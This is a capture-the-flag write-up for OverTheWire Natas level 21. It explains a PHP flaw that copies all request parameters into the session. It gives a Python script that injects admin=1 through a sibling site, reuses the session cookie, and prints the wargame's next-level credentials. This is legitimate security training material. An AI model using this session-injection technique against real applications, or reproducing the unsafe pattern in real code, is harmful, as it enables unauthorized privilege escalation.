 # Level 21

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas21.natas.labs.overthewire.org](http://natas21.natas.labs.overthewire.org)
- username: `natas21`
- password: `89OWrTkGmiLZLv12JY4tLj2c4FW0xn56`

## Solution

![start](./start.jpg)

Let's see the website from the link:

![start_ex](./start_ex.jpg)

Let's see it's sourcecode:

```php
...
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>
...
```

This part of code: 

```php
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

checks if the `submit` key exists and if it is, then it adds all keys from `$_REQUEST` to `$_SESSION`. So we can include any data in our request, and it will be stored in the session *(for example `example.com?submit=anything&debug=anything&admin=1`)*. So let's slightly modify python script from [Level 20](https://github.com/bu19akov/CTF-Challenge-Solutions/tree/main/OverTheWire/Natas/level_20) to get the admin rights:

```py
import requests
from bs4 import BeautifulSoup

# Base URL
url = 'http://natas21-experimenter.natas.labs.overthewire.org/'

# Function to make two GET requests (first one to write to the file, second one - to read)
def send_2_get_requests():
    # Cookies dictionary
    cookies = dict()

    # Our parameters (with name and debug set to whatever)
    params = dict(submit="1", debug="1", admin=1)
    
    headers = {
        'Authorization': 'Basic bmF0YXMyMTo4OU9XclRrR21pTFpMdjEySlk0dExqMmM0RlcweG41Ng==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas21.natas.labs.overthewire.org',
        'Referer': 'http://natas21.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Make the GET request with out params (name and debug)
    response_from_write = requests.get(url, headers=headers, params=params, cookies=cookies)

    # Get the PHPSESSID from the response
    phpsessid = response_from_write.cookies['PHPSESSID']

    print(phpsessid)

    # Modify the params to exlude `name` and `admin` parameters
    params = dict(debug="1")

    # Set the PHPSESSID for the next request
    cookies = dict(PHPSESSID=phpsessid)

    # Send request to the first url with modified parameters and PHPSESSID cookie
    response_from_read = requests.get("http://natas21.natas.labs.overthewire.org", headers=headers, params=params, cookies=cookies)
    
    # response_from_read.text contains the HTML content
    html_content = response_from_read.text

    # Parse the HTML content
    soup = BeautifulSoup(html_content, 'html.parser')

    # Find the <pre> tag
    pre_tag = soup.find('pre')

    print(pre_tag.get_text())

send_2_get_requests()
```

Output:

```
2f0da908n4anr2vdljhhrqq3ae
Username: natas22
Password: 91awVM9oDiUGm33JdzM7RVLBS8bz9n0s
```

## Password

`natas22`:`91awVM9oDiUGm33JdzM7RVLBS8bz9n0s`

*Created by [bu19akov](https://github.com/bu19akov)*
